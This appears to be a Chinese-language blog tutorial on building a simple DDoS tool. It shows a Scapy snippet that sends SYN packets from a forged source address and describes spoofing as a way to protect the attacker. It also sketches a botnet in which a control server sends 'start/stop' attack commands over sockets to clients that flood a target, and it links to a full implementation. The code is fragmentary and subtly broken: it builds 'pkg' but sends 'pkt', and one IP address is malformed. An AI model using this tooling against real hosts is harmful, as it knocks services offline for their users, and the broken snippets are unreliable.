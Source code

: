 ```yaml
---
title: DDoS的简单实现
date: 2016-12-06 10:52:57
tags: other
categories:
---
```


##### Scapy实现SYN泛洪攻击
<center>![](http://ww4.sinaimg.cn/large/9bcfe727jw1fagvyplc77j20b0052mxg.jpg)</center>

Scapy是一个可以让用户发送、侦听和解析并伪装网络报文的Python程序。这些功能可以用于制作侦测、扫描和攻击网络的工具。它的作用很多，简单如上图描述。

SYN泛洪攻击(SYN Flood)是一种比较常用的DoS方式之一。通过发送大量伪造的Tcp连接请求，使被攻击主机资源耗尽(通常是CPU满负荷或者内存不足) 的攻击方式。SYN泛洪攻击利用三次握手，客户端向服务器发送SYN报文之后就不再响应服务器回应的报文。由于服务器在处理TCP请求时，会在协议栈留一块缓冲区来存储握手的过程，当然如果超过一定的时间内没有接收到客户端的报文，本次连接在协议栈中存储的数据将会被丢弃。攻击者如果利用这段时间发送大量的连接请求，全部挂起在半连接状态。这样将不断消耗服务器资源，直到拒绝服务。

利用scapy构造一个SYN数据包的方法是：

	pkg = IP(src="202.121.0.12",dst="192.168.0.100")/TCP(sport=100,dport=80,flags="S")
    send(pkt)

其中，IP包中指定了源地址src和目的地址dst，其中src是我们伪造的地址，这是DoS攻击中保护攻击者的一种方式。
flags的值我们设定为S,说明我们要发送的是SYN数据包，目标端口dport为80，发送端口sport为100。

##### Socket实现DDoS攻击
总体采用CS模式，客户机连接服务器，服务器发送指令，然后客户机发起攻击，客户机使用伪装的IP攻击。
事先规定攻击命令：

	#-H xxx.xxx.xxx.xxx -p xxxx -c <start|stop>

'xxx.xxx.xxx.xxx'是目标地址， xxxx表示端口号，int型
命令可以是start：开始攻击；stop：停止攻击

###### python中的socket使用
<b>客户端</b>
```java
import socket

#创建socket: AF_INET表示IPV4协议, SOCK_STREAM表示基于流的TCP协议
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#建立连接, 指定服务器的IP和端口
s.connect(('192.168.0,100', 7786))
```
<b>服务器</b>
```java
import socket

cliList = []
# 创建socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# 绑定地址和端口号
s.bind(('0.0.0.0', 7786))：
# 开始监听，指定最大连接数为10
s.listen(10)
while True:
    # 接受一个新的连接:
    sock, addr = s.accept()
    #将sock添加到列表中
    cliList.append(sock)
```

###### python多线程 & 多进程
```java
t = Thread(target = func, args = (arg1, arg2))
t.start()

p = Process(target = func, args = (arg1, arg2))
p.start()
```

客户机接受了服务器的命令后，启动一个进程发动攻击，一个客户端可以伪造不同的IP发送大量的SYN请求，大量客户端一起工作瘫痪目标。

[具体的实现点击这里](https://github.com/Atlantic8/Project/tree/master/simple%20implementation%20of%20DDoS)
